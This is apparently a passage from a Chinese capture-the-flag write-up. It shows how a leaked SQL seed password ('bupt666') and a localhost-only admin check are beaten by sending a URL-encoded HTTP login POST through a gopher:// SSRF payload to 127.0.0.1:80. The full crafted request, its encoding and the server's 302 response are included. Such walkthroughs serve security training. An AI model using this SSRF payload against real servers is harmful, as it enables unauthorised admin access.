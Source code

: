 ```sql
-- ----------------------------
-- Records of users
-- ----------------------------
INSERT INTO `users` VALUES ('1', 'admin', MD5('bupt666'), '1');
```

本来以为密码是 `bupt666` 的md5值，登不进以为这里有坑琢磨了很久，结果密码就是 `bupt666` 233。

```
Warning! login failed! admin's login ip must be 127.0.0.1 (attention: http server's local port is 80)!
```

根据错误提示，第一反应是XFF之类的HTTP Header来一套，然而签到题就是XFF，不可能这里还是XFF，故应通过SSRF登陆，即通过Gopher发送Post请求。

### Gopher Post

Gopher协议发送Post请求，格式是把Post数据包放在 `gopher://ip:port/_POST ...` 之后，由于Gopher协议没有默认端口，所以不可省略，换行使用CRLF。gopher协议在收到数据包后，会进行url解码后解析，所以数据包需要经过url编码。

```http
POST /index.php?action=login HTTP/1.1
Host: 127.0.0.1
Content-Length: 31
Content-Type: application/x-www-form-urlencoded
Accept: */*
Connection: close

username=admin&password=bupt666
```

抓取登陆的POST包并简化，这里需要将Cookie删掉，因为登录状态会强制跳转至content，不可重新登录。


然后对这个包进行url编码，安利VScode中的 `Encode Decode` 扩展，可以很方便地进行各种编码转换。

```
POST%20%2Findex.php%3Faction%3Dlogin%20HTTP%2F1.1%0D%0AHost%3A%20127.0.0.1%0D%0AContent-Length%3A%2031%0D%0AContent-Type%3A%20application%2Fx-www-form-urlencoded%0D%0AAccept%3A%20*%2F*%0D%0AConnection%3A%20close%0D%0A%0D%0Ausername%3Dadmin%26password%3Dbupt666
```

提交 `gopher://127.0.0.1:80/_` + Post数据包，即可成功登录管理员账号。如果想直接在Burp中提交，则将 `gopher://127.0.0.1:80/_` + Post数据包，再进行一次url编码。

```http
HTTP/1.1 302 Found
Date: Tue, 29 May 2018 16:20:44 GMT
Server: Apache/2.4.10 (Debian) PHP/5.6.19
X-Powered-By: PHP/5.6.19
Set-Cookie: PHPSESSID=4478cd71d1203359ef87dec71c67417c; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Location: index.php?action=content
Content-Length: 0
Connection: close
Content-Type: text/html; charset=utf-8
```
